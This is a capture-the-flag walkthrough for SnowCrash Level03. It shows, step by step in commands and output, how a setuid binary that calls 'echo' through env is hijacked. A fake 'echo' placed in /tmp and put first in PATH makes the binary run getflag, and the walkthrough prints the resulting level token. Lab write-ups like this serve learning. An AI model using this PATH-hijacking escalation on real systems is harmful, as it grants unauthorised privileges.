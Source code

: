 # SnowCrash Level03 Guide
This guide will walk you through the process of finding the password for the `flag03` user.

## Procedure:

1. **Examine files in the current directory**
   
We start by displaying the files and folders of the current directory.
```bash
ls -l
```
We find a file named level03 with the following permissions:
```bash
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
The file is executable by the owner, the group, and others, so by everyone.
Additionally, the file is executed with the owner’s and group's rights (setuid, setgid).

2. **Execute level03**

We execute the file level03.
```bash
./level03
```
The program displays the following message:
```bash
Exploit me
```

3. **Analyse level03**

We look at where the message comes from.
```bash
strings level03 | grep "Exploit"
```
Returns
```bash
/usr/bin/env echo Exploit me
```
The program uses the echo command to display the message.
We are going to execute the getflag command instead of echo.
For this, we will create a file named echo that executes getflag when called.

4. **Collect the getflag command**

We retrieve the absolute path of the getflag command.
```bash
which getflag
```
Returns
```bash
/bin/getflag
```

5. **Try to create the echo file**

Then we create the echo file by inserting the getflag command.
```bash
echo '/bin/getflag' > echo
```
Returns
```bash
bash: echo: Permission denied
```
We do not have write permissions in the current directory.

6. **Find a directory with write permissions**

We start by finding a directory where we have write permissions.
```bash
find / -type d -writable 2>/dev/null
// searches for directories where the current user has write permissions
// find / : starting from the root of the system
// -type d : directory
// -writable : write permissions
// 2>/dev/null : redirects stderr to /dev/null
```
We find the /tmp directory where we have write permissions.
We move to the /tmp directory.
```bash
cd /tmp/
```

7. **Create the echo file**

We create the echo file.
```bash
echo '/bin/getflag' > echo
```
We give execution rights to the echo file.
```bash
chmod 777 echo
```
We check the permissions of the echo file.
```bash
ls -l echo
```
Returns
```bash
-rwxrwxrwx 1 level03 level03 XXX echo
```

8. **Add /tmp to the PATH**
Now, we need to add /tmp to the PATH so that the level03 program executes the echo file in /tmp instead of the one in /usr/bin/env.
```bash
export PATH=/tmp:$PATH
```
We add /tmp at the beginning of the PATH so that the level03 program executes the echo file in /tmp before the one in /usr/bin/env.
We verify that /tmp has been added to the PATH.
```bash
printenv | grep "PATH"
```
Returns
```bash
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

9. **Exploit level03**

We return to the directory /home/user/level03.
```bash
cd /home/user/level03/
```
Then we execute the level03 program.
```bash
./level03
```
Returns
```bash
Check flag. Here is your token: qi0maab88jeaj46qoumi7maus
```

Congratulations! We have successfully obtained the token!
We thus access level 04.
```bash
su level04
```